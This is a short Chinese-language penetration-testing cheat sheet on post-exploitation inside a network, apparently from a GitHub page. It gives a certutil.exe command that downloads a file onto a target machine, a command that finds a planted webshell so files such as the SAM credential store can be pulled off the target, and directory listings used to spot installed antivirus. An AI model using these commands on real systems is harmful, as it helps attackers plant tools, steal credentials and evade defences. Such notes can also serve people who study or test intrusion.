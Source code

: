 ## 内网技巧

### 在目标机器上下载

1. 使用certutil命令

    `certutil.exe -urlcache -split -f https:// file.txt`

### 从目标机器下载文件

1. 通过web目录从目标机器上下载文件(如sam文件等),找到web目录：

    `dir ../ /s /b | findstr [name of webshell] `


### 查看杀软

```
dir c:\program~1
dir c:\program~2
```